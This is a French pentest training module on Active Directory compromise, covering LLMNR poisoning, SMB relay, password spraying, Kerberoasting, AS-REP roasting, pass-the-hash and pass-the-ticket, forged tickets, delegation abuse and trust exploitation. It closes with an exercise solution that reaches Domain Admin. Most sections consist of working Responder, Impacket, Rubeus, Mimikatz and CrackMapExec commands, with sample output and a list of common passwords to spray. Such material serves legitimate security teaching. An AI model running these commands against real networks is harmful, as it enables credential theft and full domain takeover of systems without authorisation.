


---
tags:
  - formation
  - security
  - windows
  - hacking
  - active-directory
  - kerberos
  - kerberoasting
  - delegation
---

# Module 3 : Compromission Active Directory

Ce module couvre les techniques offensives pour obtenir un accès initial et compromettre un domaine Active Directory. Des attaques réseau (LLMNR Poisoning) aux abus Kerberos (Kerberoasting, Delegation), vous maîtriserez l'arsenal complet du pentester AD.

## Objectifs du Module

À la fin de ce module, vous serez capable de :

- Capturer des credentials via LLMNR/NBT-NS Poisoning
- Réaliser des attaques SMB Relay
- Effectuer du Password Spraying de manière sécurisée
- Exploiter Kerberoasting et AS-REP Roasting
- Comprendre et exploiter les différents types de delegation
- Abuser des relations de confiance entre domaines

**Durée estimée :** 7.5 heures
**Niveau :** Intermédiaire à Avancé

---

## 1. Initial Access - Attaques Réseau

### 1.1 LLMNR/NBT-NS Poisoning

**Concept :** Quand un hôte Windows ne peut pas résoudre un nom via DNS, il broadcast une requête LLMNR (Link-Local Multicast Name Resolution) ou NBT-NS (NetBIOS Name Service). Un attaquant peut répondre à ces requêtes et capturer des hashes NTLMv2.



**Exploitation avec Responder :**

```bash
# Lancer Responder en mode capture
sudo responder -I eth0 -dwv

# Options importantes :
# -I : Interface réseau
# -d : DHCP poisoning (optionnel)
# -w : WPAD poisoning
# -v : Verbose

# Les hashes capturés sont stockés dans :
# /usr/share/responder/logs/
```

!!! warning "Détection"
    LLMNR Poisoning génère du trafic suspect. Les EDR modernes détectent Responder. En environnement réel, utilisez des techniques plus discrètes ou limitez la durée d'écoute.

**Cracking des hashes NTLMv2 :**

```bash
# Avec Hashcat (mode 5600 pour NTLMv2)
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt

# Avec John
john --format=netntlmv2 hash.txt --wordlist=/usr/share/wordlists/rockyou.txt

# Règles pour améliorer le cracking
hashcat -m 5600 hash.txt rockyou.txt -r /usr/share/hashcat/rules/best64.rule
```

### 1.2 SMB Relay

Au lieu de cracker le hash, on peut le relayer vers un autre serveur pour s'authentifier.

**Prérequis :**

- SMB Signing désactivé sur la cible
- Le compte capturé doit avoir des droits admin sur la cible

**Vérification SMB Signing :**

```bash
# Avec CrackMapExec
crackmapexec smb 192.168.56.0/24 --gen-relay-list targets.txt

# Avec Nmap
nmap --script smb2-security-mode -p 445 192.168.56.0/24
```

**Exploitation avec ntlmrelayx :**

```bash
# 1. Désactiver SMB et HTTP dans Responder
sudo nano /etc/responder/Responder.conf
# SMB = Off
# HTTP = Off

# 2. Lancer Responder (poisoning seulement)
sudo responder -I eth0 -dwv

# 3. Lancer ntlmrelayx (dans un autre terminal)
# Relay vers une cible spécifique
sudo ntlmrelayx.py -tf targets.txt -smb2support

# Avec exécution de commande
sudo ntlmrelayx.py -tf targets.txt -smb2support -c "whoami"

# Dump SAM (si admin local)
sudo ntlmrelayx.py -tf targets.txt -smb2support --dump-sam

# Interactive shell
sudo ntlmrelayx.py -tf targets.txt -smb2support -i
# Puis : nc 127.0.0.1 11000
```

### 1.3 Password Spraying

Tester un mot de passe commun contre tous les utilisateurs (inverse du brute-force).

!!! danger "Attention au lockout!"
    Vérifiez **toujours** la password policy avant de spray. Un lockout threshold de 3 avec une durée de 30 min peut bloquer tous les comptes.

```bash
# Vérifier la policy
crackmapexec smb 192.168.56.10 -u 'j.smith' -p 'Welcome1' --pass-pol

# Password spray avec CrackMapExec
crackmapexec smb 192.168.56.10 -u users.txt -p 'Summer2024!' --continue-on-success

# Avec Kerbrute (plus discret - pas de logs NTLM)
kerbrute passwordspray -d yourcompany.local --dc 192.168.56.10 users.txt 'Summer2024!'

# Spray multiple passwords (attention au lockout)
kerbrute passwordspray -d yourcompany.local --dc 192.168.56.10 users.txt passwords.txt
```

**Mots de passe courants à tester :**

```text
Password1
Welcome1
Summer2024!
Winter2024!
Company123!
P@ssw0rd
[NomEntreprise]2024!
```

---

## 2. Credential Harvesting - Kerberos Attacks

### 2.1 Kerberoasting

**Concept :** Les comptes de service avec un SPN (Service Principal Name) peuvent être ciblés. N'importe quel utilisateur authentifié peut demander un ticket de service (TGS) pour ces comptes. Le TGS est chiffré avec le hash du mot de passe du compte de service → crackable offline.



**Exploitation avec Impacket :**

```bash
# Lister les utilisateurs Kerberoastable
GetUserSPNs.py yourcompany.local/j.smith:'Welcome1' -dc-ip 192.168.56.10

# Demander les TGS (hashes)
GetUserSPNs.py yourcompany.local/j.smith:'Welcome1' -dc-ip 192.168.56.10 -request

# Sauvegarder dans un fichier
GetUserSPNs.py yourcompany.local/j.smith:'Welcome1' -dc-ip 192.168.56.10 -request -outputfile kerberoast.txt
```

**Exploitation avec Rubeus (Windows) :**

```powershell
# Kerberoast tous les utilisateurs avec SPN
.\Rubeus.exe kerberoast /outfile:hashes.txt

# Cibler un utilisateur spécifique
.\Rubeus.exe kerberoast /user:svc_backup /outfile:svc_backup.txt

# Format Hashcat
.\Rubeus.exe kerberoast /format:hashcat /outfile:hashes.txt
```

**Cracking des hashes Kerberos :**

```bash
# Hashcat (mode 13100 pour Kerberos 5 TGS-REP etype 23)
hashcat -m 13100 kerberoast.txt /usr/share/wordlists/rockyou.txt

# Mode 18200 pour etype 17/18 (AES)
hashcat -m 18200 kerberoast.txt rockyou.txt

# Avec règles
hashcat -m 13100 kerberoast.txt rockyou.txt -r best64.rule
```

### 2.2 AS-REP Roasting

**Concept :** Certains comptes ont l'option "Do not require Kerberos preauthentication" activée. Pour ces comptes, on peut demander un AS-REP (Authentication Service Response) sans connaître le mot de passe. L'AS-REP contient une partie chiffrée avec le hash du compte → crackable offline.

```bash
# Avec liste d'utilisateurs
GetNPUsers.py yourcompany.local/ -usersfile users.txt -dc-ip 192.168.56.10 -format hashcat

# Si on a des credentials (énumère automatiquement)
GetNPUsers.py yourcompany.local/j.smith:'Welcome1' -dc-ip 192.168.56.10 -request

# Sortie vers fichier
GetNPUsers.py yourcompany.local/ -usersfile users.txt -dc-ip 192.168.56.10 -format hashcat -outputfile asrep.txt
```

**Avec Rubeus :**

```powershell
# Tous les utilisateurs AS-REP Roastable
.\Rubeus.exe asreproast /format:hashcat /outfile:asrep.txt

# Utilisateur spécifique (sans credentials!)
.\Rubeus.exe asreproast /user:j.smith /format:hashcat
```

**Cracking :**

```bash
# Hashcat mode 18200
hashcat -m 18200 asrep.txt /usr/share/wordlists/rockyou.txt
```

### 2.3 Targeted Kerberoasting

Si vous avez des droits GenericAll/GenericWrite sur un utilisateur, vous pouvez lui ajouter un SPN puis le Kerberoaster.

```powershell
# Avec PowerView - Ajouter un SPN
Set-DomainObject -Identity targetuser -SET @{serviceprincipalname='fake/whatever'}

# Kerberoast
.\Rubeus.exe kerberoast /user:targetuser

# Nettoyer (supprimer le SPN)
Set-DomainObject -Identity targetuser -Clear serviceprincipalname
```

---

## 3. Kerberos Attacks - Pass-the-*

### 3.1 Pass-the-Hash (PtH)

Utiliser un hash NTLM au lieu du mot de passe pour s'authentifier.

```bash
# Avec CrackMapExec
crackmapexec smb 192.168.56.10 -u 'Administrator' -H 'aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0'

# Avec Impacket (psexec, wmiexec, smbexec)
psexec.py yourcompany.local/Administrator@192.168.56.10 -hashes :31d6cfe0d16ae931b73c59d7e0c089c0

wmiexec.py yourcompany.local/Administrator@192.168.56.10 -hashes :31d6cfe0d16ae931b73c59d7e0c089c0

# Evil-WinRM
evil-winrm -i 192.168.56.10 -u Administrator -H 31d6cfe0d16ae931b73c59d7e0c089c0
```

### 3.2 Pass-the-Ticket (PtT)

Utiliser un ticket Kerberos (TGT ou TGS) volé.

```powershell
# Exporter les tickets avec Mimikatz
sekurlsa::tickets /export

# Ou avec Rubeus
.\Rubeus.exe dump

# Injecter un ticket .kirbi
.\Rubeus.exe ptt /ticket:ticket.kirbi

# Avec Mimikatz
kerberos::ptt ticket.kirbi
```

```bash
# Depuis Linux avec Impacket
export KRB5CCNAME=/path/to/ticket.ccache
psexec.py yourcompany.local/administrator@dc01.yourcompany.local -k -no-pass

# Convertir .kirbi (Windows) en .ccache (Linux)
ticketConverter.py ticket.kirbi ticket.ccache
```

### 3.3 Overpass-the-Hash (Pass-the-Key)

Utiliser un hash NTLM pour obtenir un TGT Kerberos, puis utiliser ce TGT.

```powershell
# Avec Rubeus
.\Rubeus.exe asktgt /user:Administrator /rc4:31d6cfe0d16ae931b73c59d7e0c089c0 /ptt

# Avec clé AES256 (plus discret)
.\Rubeus.exe asktgt /user:Administrator /aes256:AESKEY... /ptt
```

```bash
# Avec Impacket
getTGT.py yourcompany.local/Administrator -hashes :31d6cfe0d16ae931b73c59d7e0c089c0
export KRB5CCNAME=Administrator.ccache
psexec.py yourcompany.local/Administrator@dc01.yourcompany.local -k -no-pass
```

### 3.4 Silver Ticket

Forger un TGS pour accéder à un service spécifique sans passer par le DC.

**Prérequis :** Hash NTLM du compte de service (ex: compte machine)

```powershell
# Avec Mimikatz
kerberos::golden /user:Administrator /domain:yourcompany.local /sid:S-1-5-21-... /target:srv01.yourcompany.local /service:cifs /rc4:HASH /ptt

# Services courants :
# cifs - Accès fichiers (SMB)
# http - Web services
# mssql - SQL Server
# host - PSRemoting, Scheduled Tasks
```

```bash
# Avec Impacket
ticketer.py -nthash HASH -domain-sid S-1-5-21-... -domain yourcompany.local -spn cifs/srv01.yourcompany.local Administrator
export KRB5CCNAME=Administrator.ccache
psexec.py yourcompany.local/Administrator@srv01.yourcompany.local -k -no-pass
```

---

## 4. Delegation Attacks

### 4.1 Unconstrained Delegation

**Concept :** Une machine avec Unconstrained Delegation stocke le TGT des utilisateurs qui s'y connectent. Si un admin se connecte, on peut voler son TGT.

**Identification :**

```powershell
# PowerView
Get-DomainComputer -Unconstrained

# LDAP
(userAccountControl:1.2.840.113556.1.4.803:=524288)
```

**Exploitation - Printer Bug (SpoolSample) :**

Forcer un DC à s'authentifier vers notre machine avec Unconstrained Delegation.

```powershell
# Sur la machine avec Unconstrained Delegation
.\Rubeus.exe monitor /interval:5 /filteruser:DC01$

# Depuis une autre machine, trigger le Printer Bug
.\SpoolSample.exe DC01 SRV01-UNCONSTRAINED

# Le TGT du DC apparaît dans Rubeus
# L'injecter
.\Rubeus.exe ptt /ticket:base64_ticket
```

### 4.2 Constrained Delegation

**Concept :** Un service peut s'authentifier auprès d'autres services **spécifiques** au nom d'un utilisateur.

**Identification :**

```powershell
# PowerView
Get-DomainUser -TrustedToAuth
Get-DomainComputer -TrustedToAuth
```

**Exploitation - S4U2Self + S4U2Proxy :**

```bash
# Avec Impacket - Si on a le hash du compte avec Constrained Delegation
getST.py -spn cifs/targetserver.yourcompany.local -impersonate Administrator yourcompany.local/svc_constrained -hashes :HASH

export KRB5CCNAME=Administrator.ccache
psexec.py yourcompany.local/Administrator@targetserver.yourcompany.local -k -no-pass
```

```powershell
# Avec Rubeus
.\Rubeus.exe s4u /user:svc_constrained /rc4:HASH /impersonateuser:Administrator /msdsspn:cifs/targetserver.yourcompany.local /ptt
```

### 4.3 Resource-Based Constrained Delegation (RBCD)

**Concept :** Au lieu de configurer la delegation sur le compte de service, on la configure sur la ressource cible (attribut msDS-AllowedToActOnBehalfOfOtherIdentity).

**Prérequis :** Droits d'écriture sur l'attribut msDS-AllowedToActOnBehalfOfOtherIdentity de la cible.

**Exploitation :**

```powershell
# 1. Créer un compte machine (si GenericWrite sur le domaine)
New-MachineAccount -MachineAccount YOURPC -Password $(ConvertTo-SecureString 'Password123!' -AsPlainText -Force)

# 2. Configurer RBCD sur la cible
$ComputerSid = Get-DomainComputer YOURPC -Properties objectsid | Select -Expand objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Set-DomainObject -Identity TARGETCOMPUTER -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}

# 3. Exploiter avec Rubeus
.\Rubeus.exe s4u /user:YOURPC$ /rc4:HASH_OF_YOURPC /impersonateuser:Administrator /msdsspn:cifs/TARGETCOMPUTER.yourcompany.local /ptt
```

```bash
# Avec Impacket
# 1. Créer le compte machine
addcomputer.py yourcompany.local/j.smith:'Welcome1' -computer-name 'YOURPC$' -computer-pass 'Password123!'

# 2. Configurer RBCD
rbcd.py -delegate-from 'YOURPC$' -delegate-to 'TARGETCOMPUTER$' -action write yourcompany.local/j.smith:'Welcome1'

# 3. S4U
getST.py -spn cifs/TARGETCOMPUTER.yourcompany.local -impersonate Administrator yourcompany.local/'YOURPC$':'Password123!'
```

---

## 5. Domain Trust Exploitation

### 5.1 Trust Enumeration

```powershell
# PowerView
Get-DomainTrust
Get-ForestTrust

# Résultat exemple :
# SourceName      : yourcompany.local
# TargetName      : yourcompany-dev.local
# TrustType       : ParentChild
# TrustAttributes : WITHIN_FOREST
# TrustDirection  : Bidirectional
```

```bash
# Avec Impacket
lookupsid.py yourcompany.local/j.smith:'Welcome1'@dc01.yourcompany.local | grep "Domain SID"
```

### 5.2 Child to Parent - SID History Injection

Si vous êtes Domain Admin d'un domaine enfant, vous pouvez devenir Enterprise Admin du domaine parent.

```powershell
# 1. Récupérer le SID du groupe Enterprise Admins du domaine parent
Get-DomainGroup -Domain yourcompany.local -Identity "Enterprise Admins"
# SID: S-1-5-21-PARENT_DOMAIN_SID-519

# 2. Récupérer le hash krbtgt du domaine enfant
lsadump::dcsync /user:yourcompany-dev\krbtgt

# 3. Créer un Golden Ticket avec SID History
kerberos::golden /user:Administrator /domain:yourcompany-dev.local /sid:S-1-5-21-CHILD_SID /krbtgt:HASH /sids:S-1-5-21-PARENT_SID-519 /ptt
```

```bash
# Avec Impacket
ticketer.py -nthash KRBTGT_HASH -domain-sid S-1-5-21-CHILD_SID -domain yourcompany-dev.local -extra-sid S-1-5-21-PARENT_SID-519 Administrator

export KRB5CCNAME=Administrator.ccache
psexec.py yourcompany.local/Administrator@dc01.yourcompany.local -k -no-pass
```

### 5.3 Cross-Forest Attacks

Si un trust externe existe avec un autre forest, des attaques sont possibles selon les configurations.

```powershell
# Énumérer les foreign group members
Get-DomainForeignGroupMember -Domain external.forest

# Kerberoast across trust
.\Rubeus.exe kerberoast /domain:external.forest /dc:dc01.external.forest
```

---

## Exercice Pratique

!!! example "Exercice : Compromission d'un Domaine AD via 3 Chemins"

    **Objectif** : Obtenir des credentials Domain Admin via trois techniques différentes

    **Contexte** : Vous avez un accès réseau et les credentials d'un utilisateur standard : `j.smith:Welcome1`

    **Chemin 1 : LLMNR Poisoning + Crack (1h)**

    1. Lancer Responder sur le réseau
    2. Attendre ou forcer une résolution LLMNR
    3. Capturer un hash NTLMv2
    4. Cracker le hash avec Hashcat

    **Chemin 2 : Kerberoasting (45 min)**

    1. Identifier les utilisateurs avec SPN
    2. Demander les TGS avec GetUserSPNs
    3. Cracker les hashes Kerberos
    4. Tester les credentials obtenus

    **Chemin 3 : Delegation Abuse (1h)**

    1. Identifier les machines avec Unconstrained Delegation
    2. Identifier les comptes avec Constrained Delegation
    3. Exploiter l'une des deux pour obtenir un accès privilégié

    **Critères de réussite** :

    - [ ] Au moins un hash NTLMv2 capturé et cracké
    - [ ] Au moins un compte Kerberoasté avec mot de passe récupéré
    - [ ] Démonstration d'une attaque par delegation
    - [ ] Accès Domain Admin confirmé (via `whoami /groups`)

??? quote "Solution"

    **Chemin 1 : LLMNR Poisoning**

    ```bash
    # Terminal 1 : Responder
    sudo responder -I eth0 -dwv

    # Attendre qu'un utilisateur fasse une erreur de frappe
    # ou forcer avec une requête depuis une machine compromise

    # Hash capturé (exemple) :
    # admin.local::YOURCOMPANY:1234567890123456:ABCD...:...

    # Cracking
    hashcat -m 5600 captured_hash.txt /usr/share/wordlists/rockyou.txt

    # Résultat : admin.local:Admin123
    ```

    **Chemin 2 : Kerberoasting**

    ```bash
    # Lister les SPN
    GetUserSPNs.py yourcompany.local/j.smith:'Welcome1' -dc-ip 192.168.56.10

    # Résultat :
    # svc_backup - MSSQLSvc/srv01.yourcompany.local
    # svc_web    - HTTP/srv02.yourcompany.local

    # Récupérer les TGS
    GetUserSPNs.py yourcompany.local/j.smith:'Welcome1' -dc-ip 192.168.56.10 -request -outputfile kerberoast.txt

    # Cracking
    hashcat -m 13100 kerberoast.txt /usr/share/wordlists/rockyou.txt

    # Résultat : svc_backup:Backup123!

    # Test des credentials
    crackmapexec smb 192.168.56.10 -u 'svc_backup' -p 'Backup123!'
    # [+] svc_backup:Backup123! (Pwn3d!)
    ```

    **Chemin 3 : Delegation Abuse**

    ```powershell
    # Identifier Unconstrained Delegation
    Get-DomainComputer -Unconstrained
    # Résultat : SRV01

    # Depuis SRV01, monitorer les tickets
    .\Rubeus.exe monitor /interval:5

    # Trigger le Printer Bug depuis une autre machine
    .\SpoolSample.exe DC01 SRV01

    # TGT du DC capturé, l'injecter
    .\Rubeus.exe ptt /ticket:doIFmj...

    # DCSync pour récupérer le hash de krbtgt et Administrator
    lsadump::dcsync /user:yourcompany\Administrator
    ```

    **Validation finale :**

    ```powershell
    # Vérifier l'appartenance au groupe Domain Admins
    whoami /groups | findstr "Domain Admins"
    # YOURCOMPANY\Domain Admins
    ```

---

## Points Clés à Retenir

- **LLMNR/NBT-NS** : Désactivés en entreprise sécurisée, mais encore très courants
- **Password Spraying** : Toujours vérifier la policy de lockout avant
- **Kerberoasting** : N'importe quel utilisateur peut le faire - cible les comptes de service
- **AS-REP Roasting** : Plus rare mais souvent des mots de passe faibles
- **Delegation** : Vecteur puissant, souvent négligé par les admins
- **Trusts** : Un domaine enfant compromis = forest compromis

---

## Ressources

- [HackTricks - Kerberos Attacks](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/kerberos-authentication)
- [The Hacker Recipes - Delegation](https://www.thehacker.recipes/ad/movement/kerberos/delegations)
- [SpecterOps - An Ace Up the Sleeve](https://posts.specterops.io/an-ace-up-the-sleeve-designing-active-directory-dacl-backdoors-5024a72bcb7a)
- [ired.team - AD Attacks](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse)

---

| | |
|:---|---:|
| [← Module 2 : Reconnaissance](02-module.md) | [Module 4 : Privilege Escalation →](04-module.md) |

[Retour au Programme](index.md){ .md-button }
